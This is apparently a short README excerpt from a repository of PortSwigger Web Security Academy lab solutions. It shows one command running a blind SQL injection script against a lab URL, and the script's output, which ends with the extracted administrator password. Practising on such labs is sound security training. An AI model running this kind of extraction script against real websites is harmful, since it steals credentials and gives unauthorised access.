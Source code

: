 ## SQL Labs - PortSwigger Academy

#### Blind SQL injection with conditional response lab
```bash
 $ python3 blind_sql_conditional_response.py https://aca11f2a1e76b68e80af965200bf0092.web-security-academy.net
 Checking users table: True
 Checking Administrator account: True
 Checking password length: 20
 Extracting Admin password: 4iwxwfcbi3r64bnvrb2f
```
